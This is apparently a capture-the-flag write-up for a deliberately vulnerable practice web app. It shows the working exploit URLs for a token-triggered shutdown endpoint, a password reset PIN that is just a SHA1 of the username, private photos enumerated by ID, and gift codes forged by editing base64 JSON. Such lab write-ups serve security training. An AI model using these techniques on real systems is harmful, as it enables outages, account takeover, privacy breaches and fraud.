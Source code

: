 ```

```
https://www.linkedin.com/in/arnold-t-poodle-103232a3/

Writing the Fjord Framework, specifically version 2.3.
```

```
http://fjordwebengineering.blogspot.com/2014/09/fjord-engineering-framework-v23_17.html

Fjord Engineering Framework v2.3 has a Denial of Service vulnerability with the architecture. We are currently working on getting a hot fix out.

Hey, for anyone who wants to test their own servers: hitting the endpoint /kill with query parameter shutDownToken set to ae450g9dg shuts down the whole web server. You should upgrade to v2.4 immediately once the hot fix goes out.
```

```
http://34-222-117-67-shred.vulnerablesites.net/Shred/kill?shutDownToken=ae450g9dg
```

```
CHALLENGE COMPLETED: Denial of Service through Known Vulnerable Software: 600 points
```

### RESET PASSWORD PIN

Creating a new user `filo`, we receive a Password Reset PIN that is just the SHA1 encrypted string of our username.

```
filo Password Reset PIN: 55771c7ffcd86ed89b00a283572e140607e43334
```

So using the password request function for Linwood Cole with PIN `950c038c64139dbc6e606d7cbfb020694f84b308`

```
CHALLENGE COMPLETED: Weak Password Reset: 600 points
```

### PRIVATE PHOTO

We can view the public gallery and enumerate the URL to access someone's private photos..

```
http://34-222-117-67-shred.vulnerablesites.net/Shred/viewPhoto?photoId=93883
```

```
CHALLENGE COMPLETED: See Someone Else's Private Photo: 100 points
```

### GIFT CODE (STEALING)

We used Linwood's account to purchase a gift card, we find a URL that allows the receipt to claim.

```
http://34-222-117-67-shred.vulnerablesites.net/Shred/viewGiftCard?code=eyJpZCI6MTAyfQ%3D%3D
```

Using base64 to decode the `code`, we find it resolves to `{"id":102}`.

```
{"id":101}
eyJpZCI6MTAxfQ==
http://34-222-117-67-shred.vulnerablesites.net/Shred/viewGiftCard?code=eyJpZCI6MTAxfQ%3D%3D